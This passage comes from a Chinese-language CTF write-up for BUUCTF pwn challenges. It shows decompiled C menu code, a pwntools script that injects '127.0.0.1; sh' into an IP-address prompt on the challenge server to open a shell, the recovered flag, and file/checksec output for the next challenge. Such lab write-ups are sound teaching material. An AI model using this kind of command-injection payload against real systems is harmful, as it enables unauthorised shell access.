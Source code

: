 ```c
      case 2:
        puts("bibibibbibibib~~~");
        sleep(3u);
        puts("ziziizzizi~~~");
        sleep(3u);
        puts("something wrong!");
        puts("Test done!");
        break;
      case 3:
        puts("Please input what u want to say");
        puts("Your suggest will help us to do better!");
        read(0, v10, 0x3AuLL);
        printf("Dear ctfer,your suggest is :%s", v10);
        break;
      case 4:
        puts("Hey guys,u think too much!");
        break;
      case 5:
        puts("Good Bye!");
        exit(-1);
      default:
        puts("Functional development!");
        break;
    }
  }
}
```

编写`Python`代码解得`flag{d8dc77b9-ebba-4da1-b459-2f23fd1fc1bc}`，提交即可。

```python
from pwn import *

io = remote('node4.buuoj.cn', 29833)
io.sendlineafter('Please input u choose:', b'1')
io.sendlineafter('Please input the ip address:', b'127.0.0.1; sh')
io.interactive()
```

------

### ♥ [[第五空间2019 决赛]PWN5](https://buuoj.cn/challenges#[%E7%AC%AC%E4%BA%94%E7%A9%BA%E9%97%B42019%20%E5%86%B3%E8%B5%9B]PWN5)

先`file ./pwn  `查看文件类型，再`checksec --file=./pwn  `检查文件保护情况。

```bash
┌──(tyd㉿kali-linux)-[~/ctf/pwn/buuctf]
└─$ file ./pwn           
./pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6a8aa744920dda62e84d44fcc440c05f31c4c23d, stripped

┌──(tyd㉿kali-linux)-[~/ctf/pwn/buuctf]
└─$ checksec --file=./pwn
[*] '/home/tyd/ctf/pwn/buuctf/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
